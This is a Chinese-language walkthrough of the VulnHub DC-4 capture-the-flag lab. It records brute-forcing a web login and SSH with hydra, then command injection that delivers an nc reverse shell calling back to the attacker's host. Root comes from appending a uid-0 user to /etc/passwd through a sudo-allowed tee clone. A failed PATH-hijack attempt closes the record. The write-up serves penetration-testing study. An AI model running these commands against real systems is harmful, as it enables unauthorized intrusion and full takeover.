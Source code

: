 # DC: 4

2024-5-28 https://www.vulnhub.com/entry/dc-4,313/

difficulty: beginners/intermediates

## IP

192.168.5.29

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 8d6057066c27e02f762ce642c001ba25 (RSA)
|   256 e7838cd7bb84f32ee8a25f796f8e1930 (ECDSA)
|_  256 fd39478a5e58339973739e227f904f4b (ED25519)
80/tcp open  http    nginx 1.15.10
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
```

http://192.168.5.29/ 首页是一个登陆页面，可能存在 sql 注入，先用 gobuster 扫描看看还有什么其他目录。

```
http://192.168.5.29/index.php            (Status: 200) [Size: 506]
http://192.168.5.29/images               (Status: 301) [Size: 170] [--> http://192.168.5.29/images/]
http://192.168.5.29/login.php            (Status: 302) [Size: 206] [--> index.php]
http://192.168.5.29/css                  (Status: 301) [Size: 170] [--> http://192.168.5.29/css/]
http://192.168.5.29/logout.php           (Status: 302) [Size: 163] [--> index.php]
http://192.168.5.29/command.php          (Status: 302) [Size: 704] [--> index.php]
```

都需要登陆后才能访问。

只有先尝试爆破一下登陆的页面了，看看能不能找到可用的用户凭据：

```
hydra -t 20 -l admin -P ~/tools/dict/rockyou.txt 192.168.5.29 -f http-post-form "/login.php:username=^USER^&password=^PASS^:F=Login"
```

找到了 admin 的用户密码 happy, 进入系统后，发现 http://192.168.5.29/command.php 链接，有 3 个按钮，可以调用系统命令。

进行拦截，发现上传的数据包不是固定的：

```
radio=df+-h&submit=Run
```

radio 这里没有固定，可以自行修改：

```
radio=ls+-al&submit=Run
```

可以正常显示 ls -al, 写入反弹 payload，别忘记加 session 的 cookie:

```
curl -b 'PHPSESSID=afn62b979jtv0u4q2bp2nql7g3' --data-urlencode "radio=ls -al" --data-urlencode "submit=Run" http://192.168.5.29/command.php
```

发现目标系统有 /bin/nc ，可以用 nc 进行反弹，kali 上监听 8888 端口：

```
curl -b 'PHPSESSID=afn62b979jtv0u4q2bp2nql7g3' --data-urlencode "radio=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.5.3 8888 >/tmp/f" --data-urlencode "submit=Run" http://192.168.5.29/command.php
```

得到反弹 shell 后，先升级下 tty。

在 /home 目录下有 3 个用户 home 目录文件夹，charles jim sam，其中 jim 文件夹中有一个密码文件：

```
www-data@dc-4:/home/jim$ ls -al backups/
total 12
drwxr-xr-x 2 jim jim 4096 Apr  7  2019 .
drwxr-xr-x 3 jim jim 4096 Apr  7  2019 ..
-rw-r--r-- 1 jim jim 2047 Apr  7  2019 old-passwords.bak
```

猜测可能这 3 个用户的密码可能存在这里，可以先用 hydra 爆破一波：

```
hydra -t 20 -l user -P pass  ssh://192.168.5.29

[22][ssh] host: 192.168.5.29   login: jim   password: jibril04
```

找到了 jim 的密码 jibril04，ssh 登陆进去。

发现线索：

```
jim@dc-4:~$ cat mbox
From root@dc-4 Sat Apr 06 20:20:04 2019
Return-path: <root@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 20:20:04 +1000
Received: from root by dc-4 with local (Exim 4.89)
	(envelope-from <root@dc-4>)
	id 1hCiQe-0000gc-EC
	for jim@dc-4; Sat, 06 Apr 2019 20:20:04 +1000
To: jim@dc-4
Subject: Test
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCiQe-0000gc-EC@dc-4>
From: root <root@dc-4>
Date: Sat, 06 Apr 2019 20:20:04 +1000
Status: RO

This is a test.
```

像是个邮件，可能 jim 还有其他邮件，看看有没有 cat /var/mail/jim 发现了密码：

```
Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles
```

su 切换到 charles，输入密码 ^xHhA&hvim0y

发现 sudo :

```
(root) NOPASSWD: /usr/bin/teehee
```

/usr/bin/teehee 与 tee 的使用方法一样，可以追加特定内容到特定文件：

```
echo 'tom:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:User_like_root:/root:/bin/bash' | sudo -u root /usr/bin/teehee -a "/etc/passwd"
```

在 /etc/passwd 中添加一个新用户 tom，密码为 123，su 切换到 tom：

```
charles@dc-4:~$ su tom
Password:
root@dc-4:/home/charles# id
uid=0(root) gid=0(root) groups=0(root)
root@dc-4:/home/charles# cd /root
root@dc-4:~# ls -al
total 28
drwx------  3 root root 4096 Apr  7  2019 .
drwxr-xr-x 21 root root 4096 Apr  5  2019 ..
-rw-------  1 root root   16 Apr  7  2019 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  976 Apr  6  2019 flag.txt
drwxr-xr-x  2 root root 4096 Apr  6  2019 .nano
-rw-r--r--  1 root root  148 Aug 18  2015 .profile
root@dc-4:~# cat flag.txt



888       888          888 888      8888888b.                             888 888 888 888
888   o   888          888 888      888  "Y88b                            888 888 888 888
888  d8b  888          888 888      888    888                            888 888 888 888
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888


Congratulations!!!

Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```

发现 suid 程序（这里不能提权，没用可以不用看了）：

```
find / -perm -u=s -ls 2>/dev/null

9804 4 -rwsrwxrwx  1 jim  jim   174 Apr  6  2019 /home/jim/test.sh

www-data@dc-4:/usr/share/nginx/html$ ls -al /home/jim/test.sh
-rwsrwxrwx 1 jim jim 174 Apr  6  2019 /home/jim/test.sh
```

可以有修改权限：

```
www-data@dc-4:/usr/share/nginx/html$ cat /home/jim/test.sh
#!/bin/bash
for i in {1..5}
do
 sleep 1
 echo "Learn bash they said."
 sleep 1
 echo "Bash is good they said."
done
 echo "But I'd rather bash my head against a brick wall."
```

发现 sleep 没有使用绝对路径，可以尝试利用进行程序劫持，echo 是内建命令，不能劫持，尝试劫持 sleep：

```
echo '/bin/bash -p' > /tmp/sleep
chmod +x /tmp/sleep
PATH=/tmp:$PATH /home/jim/test.sh
```

但是不行，发现执行后，还是 www-data 权限。
